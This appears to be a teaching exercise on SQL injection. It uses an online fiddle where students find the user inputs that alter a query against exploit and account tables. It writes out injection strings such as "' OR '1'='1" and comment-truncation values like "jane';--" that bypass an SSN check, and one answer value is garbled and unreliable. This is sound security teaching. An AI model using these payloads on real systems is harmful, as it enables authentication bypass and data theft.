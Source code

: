 # SQL Substititions

## Instructions

Navigate to the fiddle at: <https://www.db-fiddle.com/f/gAkPEQwVW7EsAnm3xuUJGx/0>

Consider the query below as you follow the instructions:

  ```sql
  SELECT * FROM warehouse.exploits WHERE name='$EXPLOIT_NAME';
  ```

Suppose that `$EXPLOIT_NAME` comes from a user-submitted value. E.g., if a user searches for the name `aurora`, the query becomes:

  ```sql
  SELECT * FROM warehouse.exploits WHERE name='aurora';
  ```

Keep this in mind as you follow the instructions below.

### "Simple" Substitutions

- What value does `$EXPLOIT_NAME` need to have to generate the query below? What results does this generate in the fiddle?
  - `$EXPLOIT_NAME` = eternal romance

  ```sql
  SELECT * FROM warehouse.exploits WHERE name='eternal romance';
  ```

- What value does `$EXPLOIT_NAME` need to have to generate the query below? What results does this generate in the fiddle?
  - `$EXPLOIT_NAME` = aurora' OR id='1

  ```sql
  SELECT * FROM warehouse.exploits WHERE name='aurora' OR id='1';
  ```

- What value does `$EXPLOIT_NAME` need to have to generate the query below? What results does this generate in the fiddle?
  - `$EXPLOIT_NAME` = ' OR '1'='1

  ```sql
  SELECT * FROM warehouse.exploits WHERE name='' OR '1'='1';
  ```

- What value does `$EXPLOIT_NAME` need to have to generate the query below? What results does this generate in the fiddle?
  - `$EXPLOIT_NAME` = ' 

  ```sql
  SELECT * FROM warehouse.exploits WHERE name=''';
  ```

### "Complex" Substitutions
In addition to special characters like quotes, you can inject the comment character: `--`.

This forces the server _not_ to run whatever SQL code follows the comment.
see if -- or # breaks query
Consider the query below to see when this might be useful:

  ```sql
  -- Retrieve account data for `$USERNAME`, as long as they provide the right SSN
  SELECT * FROM warehouse.accounts WHERE name='$USERNAME' AND ssn='$USER_SSN';
  ```

- What value must `$USERNAME` have to generate the query below? What results does this generate?
  - `$USERNAME` = jane';--

  ```sql
  -- Retrieve account data for `$USERNAME`, as long as they provide the right SSN
  SELECT * FROM warehouse.accounts WHERE name='jane'; -- AND ssn='$USER_SSN';
  ```

- What value must `$USERNAME` have to generate the query below? What results does this generate?
  - `$USERNAME` = jane' OR '1'=1'1';--

  ```sql
  -- Retrieve account data for `$USERNAME`, as long as they provide the right SSN
  SELECT * FROM warehouse.accounts WHERE name='jane' OR '1'='1'; -- AND ssn='$USER_SSN';
  ```

